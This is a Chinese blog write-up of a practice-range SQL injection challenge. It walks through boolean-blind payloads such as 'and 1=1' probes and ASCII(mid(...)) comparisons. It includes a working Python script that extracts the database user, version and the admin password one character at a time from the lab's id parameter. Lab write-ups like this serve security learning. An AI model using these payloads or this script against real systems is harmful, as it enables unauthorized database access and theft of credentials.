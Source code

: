 ```yaml
---
title: 记一次用Python挑战SQL注入
date: 2020-04-13 18:07:52
categories:
	- 渗透测试
	- Python
tags:
	- Python
	- 渗透测试
---
```

## 前言
- 最近哥们给我分享了一个靶场地址，疫情在家闲着无聊便拿来挑战一下。
- [靶场地址](https://hack.zkaq.cn/)
## 分析
- 可以看到，题目要求是拿到管理员密码即可。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171506664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

- 再进入靶机页面瞅瞅，看来就是要在url上操作了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171823314.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
- 简单加一个and 1=1和and 1=2，发现1=1时，显示下面的猫舍介绍，1=2时，不显示猫舍介绍。这个变化就作为分辨依据。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413174244815.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

## 开始挑战
### 先拿一手user()（此时我已经忘记题目要求要拿管理员密码。。。。。）
##### 先拿user()长度
- 先and char_length(user())>0，OK
- 再and char_length(user()>100),ERROR
- 。。。。。。（中间省略，自己慢慢试）
- 就这样把user()的长度试了出来，16。
##### 长度出来，试字段
- 用and ASCII(mid(user(),1,1))>0，试出来后查表转换为字符
- 然后我们用python（不要问我为啥突然用python，试了8个字符后，手都试酸了。。。T0T）
- 上代码（代码不能直接用啊，自己简单分析一下，根据自己要获取的内容改一下，再补全IP就能用了）

```python
import re,requests

result = []
string = []
for j in range(1,17):	#循环第几个字符
    for i in range(97,123):	#从ASCII码表的第几到几开始试，试全部可能会慢很多
        #url = 'http://117.167.*.*:10180/index.php?id=1%20and%20(select%20ascii(mid(password,'+str(j)+',1))%20from%20admin)='+str(i) #找password时候用的
        #url = 'http://117.167.*.*:10180/index.php?id=1'+'and ASCII(mid(1,1))='+str(i)
        url = 'http://117.167.*.*:10180/index.php?id=1%20and%20ASCII(mid(user(),'+str(j)+',1))='+str(i)
        res = requests.get(url)
        res.encoding = 'utf8'
        if("猫舍介绍" in res.text):#判断返回的是OK还是ERROR
            print(str(j)+'是'+str(i))
            result.append(str(j)+':'+str(i))
            string.append(str(j)+':'+chr(i)) #将得到的编码自动转换成字符
            break
        else:
            print('不是'+str(i))

print(result)
print(string)
```
- 程序运行完之后记得查看输出结果是否有没试出来的字符，可以换个区间重新试一下或者自己手动试。

### 同理再拿一手database()
- maoshe
### 再拿一手version()
- 5.5.53
### 再拿一手hostname
- gongksik_d45fb6
### 再拿一手。。。。。。
### 哎，我到底要拿啥来着，哦对，管理员密码
#### 先找表
- 先随便试一下有没有admin表，and (select count(*) from admin)>0，Woc！！！还真有！
- 再随便试一下有没有password字段，and(select count(password) from admin)>0，Woc！！！又有！
- 这里博主走了点狗屎运，读者请勿模仿，自行一个个猜哈~
- 接下来就简单了，用上上面的python代码
- 注入标记改为(select ASSII(mid(password,1,1)))>0
- 然后就得到了管理员密码——（自己试去，┑(￣▽ ￣)┍）
### 接下来最重要的步骤——登录MySQL系统
- 等好久都不成功，才想起我们的目标只是拿到管理员密码。。。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413180149362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
## 后记
- 本次SQL注入到此结束，还愣着干啥，点赞关注走一走啊。。。。（￣︶￣）↗
